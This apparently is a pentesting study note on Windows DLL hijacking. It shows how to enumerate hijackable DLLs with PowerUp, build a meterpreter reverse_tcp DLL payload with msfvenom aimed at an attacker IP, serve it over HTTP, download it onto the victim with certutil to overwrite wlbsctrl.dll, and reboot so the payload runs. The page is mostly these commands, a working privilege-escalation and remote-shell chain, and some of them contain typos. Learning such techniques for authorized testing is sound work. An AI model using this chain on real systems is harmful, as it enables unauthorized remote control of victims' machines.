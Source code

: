 # 🗒 DLL Hijacking

DLLs are dynamic libraries that a program needs to run, this could be images, and commands.&#x20;

How do we perform DLL hijacking?

As the name entails we will be hijacking a DLL by overwriting an already exsiting one. In order to see whether a DLL is hijackable I run PowerUp.ps1 and use the function Invoke-AllChecks in order to enumerate for Unquoted Service Paths and DLL hijackable dlls.&#x20;

```
powershell -ep bypass 
. .\PowerUp.ps1
Invoke-AllChecks
```

![](<../../../.gitbook/assets/image (24).png>)

In this example we see that the vulnerable DLL file is called wlbsctrl.dll, so if we have write access to this file we can overwrite it with a malicious payload of our own in the dll form.&#x20;

```
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.123.123.123 lport=1234 -f dll -o wlbsctrl.dll

/* We start an http server
pyhon3 -m http.server 80

On victim machine
certutil -urlcache -f htto://192.123.123.123:80/wlbsctrl.dll "C:\path\to\wlbsctrl.dll"

/* Restart Victim machine. 
shutdown -r 
```

![](<../../../.gitbook/assets/image (60).png>)
